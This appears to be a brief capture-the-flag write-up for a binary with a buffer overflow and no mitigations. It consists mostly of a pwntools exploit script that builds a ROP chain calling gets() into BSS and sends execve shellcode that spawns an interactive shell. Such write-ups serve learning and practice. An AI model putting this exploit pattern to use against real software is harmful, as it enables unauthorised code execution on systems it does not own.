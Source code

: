 The binary has no exploitation mitigations and it is vulnerable to a buffer overflow. Simply read some shellcode into BSS and jump there.
Exploit script
```python
io = start()

rop = ROP(exe)
rop.gets(exe.symbols['__bss_start'])
rop.raw(exe.symbols['__bss_start'])

p = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
_sndl(cyclic(cyclic_find('qaac')) + rop.chain())
_sndl(p)

io.interactive()
```

